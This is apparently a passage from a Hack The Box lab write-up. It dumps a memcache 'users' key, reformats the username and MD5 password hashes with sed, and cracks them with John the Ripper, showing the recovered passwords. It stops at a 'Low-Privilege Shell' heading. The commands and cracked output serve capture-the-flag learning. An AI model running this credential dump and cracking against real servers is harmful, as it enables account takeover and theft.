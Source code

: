 ```
# ./memcache.sh stats cachedump 26 0
ITEM users [24625 b; 1544667379 s]
END
```

The `users` key caught my eye immediately.


{% include image.html image_alt="678f22ca.png" image_src="/cf03319f-a3c7-48c7-bf76-211a3be4935e/678f22ca.png" %}


The response was a hash map of username as key and the MD5 hash of the password as value. Cool, now I can transform the output as an input compatible for John the Ripper cracking.

```
./memcache.sh get users | sed '2!d' > users.txt && sed -e 's/&#34;//g' -e 's/[{}]//g' -e 's/ //g' -e 's/,/\n/g' users.txt > hashes.txt
```

The transformed output should look like this.

```
quinton_dach:17906b445a05dc42f78ae86a92a57bbd
jackie.abbott:c6ab361604c4691f78958d6289910d21
isidro:e4a4c90483d2ef61de42af1f044087f3
roy:afbde995441e19497fe0695e9c539266
colleen:d3792794c3143f7e04fd57dc8b085cd4
harrison.hessel:bc5f9b43a0336253ff947a4f8dbdb74f
asa.christiansen:d7505316e9a10fc113126f808663b5a4
jessie:71f08b45555acc5259bcefa3af63f4e1
milton_hintz:8f61be2ebfc66a5f2496bbf849c89b84
demario_homenick:2c22da161f085a9aba62b9bbedbd4ca7
...
```

Here's the fruits of the JtR labor.

```
# /opt/john/john --format=raw-md5 --show hashes.txt
aglae:misfits
alec:blaster
ona:monkeyman
wendell:megadeth
admin:Password1
demo:demo
genevieve:Princess1
abbigail:piggy
rick:lovesucks1
default:default
d_murphy:hacktheplanet
irma:strength

12 password hashes cracked, 483 left
```

## Low-Privilege Shell


[1]: https://www.hackthebox.eu/home/machines/profile/150
[2]: https://www.hackthebox.eu/home/users/profile/9267
[3]: https://www.hackthebox.eu/